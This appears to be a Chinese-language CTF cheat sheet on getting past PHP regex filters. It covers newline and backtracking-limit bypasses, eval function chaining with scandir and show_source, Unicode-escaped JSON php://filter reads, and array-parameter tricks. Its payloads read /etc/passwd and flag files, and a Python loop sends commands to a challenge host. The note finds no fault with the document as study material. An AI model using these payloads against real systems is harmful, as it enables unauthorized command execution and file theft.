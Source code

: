 ## **特殊正则绕过1**
```
if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias省略见下面|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];


preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|
compgen|complete|continue|declare|dirs|disown|
echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|
kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|
shopt|source|suspend|test|times|trap|type|typeset|ulimit|
umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) 

```
正则匹配表达式采用了^xxx$的格式，同时也采用了.*这样的贪婪匹配，所以有两个方案来绕过正则——回溯次数超限和利用%0a。

^
#### **1、%0a绕过**
因为正则匹配中'^'和'$'代表的是行的开头和结尾,所以能利用换行绕过。
![](.topwrite/assets/image_1728045913134.png)
```
cmd={"cmd":"/bin/cat%20/etc/passwd"}
cmd=%0a%0a{"cmd":"/bin/cat%20/etc/passwd"}%0a%0a
cmd=%0a%0a{"cmd":"/usr/bin/find%20/%20-name%20flag*"}%0a%0a
```

其他案例：
```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```
$_SERVER['QUERY_STRING']获取查询语句，既要绕过get参数中下划线_的过滤，用.替换，还要绕过正则匹配的23333，通过%0a。
```
?b.u.p.t=23333%0a
```

^
#### **2、回溯次数超限绕过**
```
import requests as res

url="http://a3388f0b-b347-4570-ad9e-88649da2aa29.node4.buuoj.cn:81/"
while(True):
    payload=input("resp:")
    resp=res.get(url,params={"cmd":'\x0a\x0a{"cmd":"%s"}\x0a\x0a'%(payload)})
    print(resp.text)
```





^
## **无字母RCE绕过**
不可大于字符：1、url 。2、异或。3、或。4、与。5、取反
自增


^
## **冷门函数绕过正则**
```
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
```
保留的英文字母和英文()，就是使用函数绕过。
构造：?c=print_r(scandir(pos(localeconv()))); 
得到：Array ( [0] => . [1] => … [2] => flag.php [3] => index.php ) 
现在要读取到倒数第二的文件，使用数组逆序函数 
构造：?c=print_r(array_reverse(scandir(pos(localeconv())))); 
得到：Array ( [0] => index.php [1] => flag.php [2] => … [3] => . ) 
再进行读取指定到第二个 构造：?c=print_r(next(array_reverse(scandir(pos(localeconv()))))); 
源码读取指定的：?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

更多函数参考：
```
each() 返回数组中当前的键/值对并将数组指针向前移动一步
end() 将数组的内部指针指向最后一个单元
next() 将数组中的内部指针向前移动一位
prev() 将数组中的内部指针倒回一位
array_reverse() 以相反的元素顺序返回数组
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)
pos()：返回数组中当前元素的值
scandir()：获取目录下的文件
array_reverse()：将数组逆序排列
next()：函数将内部指针指向下一元素，并输出
print_r(scandir(‘.’)); 查看当前目录下的所有文件名
current() 函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名
```

^
^
## **JSON绕过关键词过滤**
JSON可以使用UNicode的16进制编码绕过。
如
```
{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}
```

^
## **传参变数组绕过**
```
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
die('Invalid nickname');

这里只需要
nickname=;;;;;
变成
nickname[]=;;;;
即可绕过
```